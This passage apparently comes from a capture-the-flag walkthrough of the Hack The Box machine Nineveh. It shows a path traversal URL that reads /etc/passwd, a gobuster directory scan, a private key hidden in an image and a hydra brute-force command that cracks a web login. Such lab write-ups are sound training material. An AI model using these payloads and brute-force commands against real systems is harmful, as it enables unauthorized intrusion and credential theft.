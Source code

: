 `http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt/../../../test`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2010.png)

I found a vulnerability:

`http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2011.png)

## Port 443 (HTTPS)

There’re a simple page with an image

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2012.png)

Analyzing the image nothing was found.

### Fuzzing Directory

```bash
**gobuster dir -k -u https://10.10.10.43/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -e --no-error -r -f -x php**
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2013.png)

### /secure_notes

It was found  a image.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2014.png)

Analyzing the a image is found a private key. But there’re not port 22 (SSH) open. Possible attack vector.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2015.png)

### /db/

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2016.png)

Brute-force

```bash
hydra 10.10.10.43 -s 443 -l 0xEtern4lW0lf -P /usr/share/wordlists/rockyou.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect\ password"
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2017.png)

> Pass: **password123**
> 
